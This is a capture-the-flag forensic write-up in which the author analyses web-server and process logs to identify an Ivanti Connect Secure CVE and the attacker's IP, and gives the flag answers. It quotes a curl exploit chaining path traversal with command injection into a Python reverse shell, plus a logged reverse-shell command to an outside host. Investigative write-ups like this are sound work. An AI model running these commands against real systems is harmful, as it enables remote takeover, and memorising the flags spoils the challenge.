 So we're given many log files, and we have to find the CVE used by the attacker and his IP.
In the file "cav_webserv.log", we can see MANY tries for webpages that leads to 404, that looks like Fuzzing.
The ip that did these requests is 172.18.0.4.

The scan has ended around Fri Mar 15 06:42:10 2024, so the exploit is probably after that time.

Inside "nodemonlog", we can find:

![](_attachments/Pasted%20image%2020240407185830.png)
![](_attachments/Pasted%20image%2020240407185837.png)
![](_attachments/Pasted%20image%2020240407185915.png)![](_attachments/Pasted%20image%2020240407185926.png)

Found this in config_rest_server.log.old:
```
[pid: 6299|app: 0|req: 1/1] 172.18.0.4 () {30 vars in 501 bytes} [Fri Mar 15 06:29:17 2024] POST /api/v1/totp/user-backup-code/../../system/maintenance/archiving/cloud-server-test-connection => generated 14 bytes in 164281 msecs (HTTP/1.1 200) 2 headers in 71 bytes (1 switches on core 0)

```

I found this article:
https://blog.cloudflare.com/how-cloudflares-ai-waf-proactively-detected-ivanti-connect-secure-critical-zero-day-vulnerability-fr-fr

It explains that attacker can exploit the vuln using this:

```
curl -ik --path-as-is https://VICTIM/api/v1/totp/user-backup-code/../../license/keys-status/%3Bpython%20%2Dc%20%27import%20socket%2Csubprocess%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%22CONNECTBACKIP%22%2CCONNECTBACKPORT%29%29%3Bsubprocess%2Ecall%28%5B%22%2Fbin%2Fsh%22%2C%22%2Di%22%5D%2Cstdin%3Ds%2Efileno%28%29%2Cstdout%3Ds%2Efileno%28%29%2Cstderr%3Ds%2Efileno%28%29%29%27%3B
```

well it looks much like what we are seeing !

Incorrect:
- FCSC{CVE-2023-46805:172.18.0.4}
- FCSC{CVE-2024-21887:172.18.0.4}

So these aren't the exploit ? Weird... Might be a false positive.

Also, i found this line in logs:
```
22157 22155  0.0  0.0 S  2296   9532  8004 python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```
That's exactly like a reverse shell... What if  ? :)

The attacker IP is 20.13.3.0, without any doubt now.

I retried the exploits from before:
```
FCSC{CVE-2024-21887:20.13.3.0}
```
And this one worked :)

